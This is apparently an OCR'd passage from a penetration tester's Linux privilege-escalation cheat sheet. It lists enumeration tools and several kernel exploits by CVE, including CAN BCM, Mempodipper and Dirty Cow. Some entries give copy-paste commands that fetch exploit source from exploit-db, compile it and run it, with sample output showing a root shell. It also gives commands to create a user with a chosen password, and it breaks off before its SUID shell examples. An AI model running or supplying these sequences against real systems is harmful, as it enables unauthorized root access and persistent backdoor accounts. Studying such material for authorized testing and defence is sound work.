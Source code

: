           `wget https://highon.coffee/downloads/linux-local-enum.sh`

      -   Linux Privilege Exploit Suggester  (Old has not been updated in years)
      
    [https://github.com/PenturaLabs/Linux\_Exploit\_Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester)

      -   Linux post exploitation enumeration and exploit checking tools  
      
    [https://github.com/reider-roque/linpostexp](https://github.com/reider-roque/linpostexp)
    

Handy Kernel Exploits

-   CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)

    [https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)
    
         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)

-   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)

-   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
    [https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056  
    
          wget -O exploit.c http://www.exploit-db.com/download/18411 
          gcc -o mempodipper exploit.c  
          ./mempodipper

-   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
    [https://dirtycow.ninja/](https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016  

-   Run a command as a user other than root  

          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

-   Add a user or change a password

          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
          echo thePassword | passwd haxzor --stdin

-   Local Privilege Escalation Exploit in Linux

    -   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a
        superuser, you can update the UID / GID and shell as required.  
          
        below are some quick copy and paste examples for various
        shells:  
     
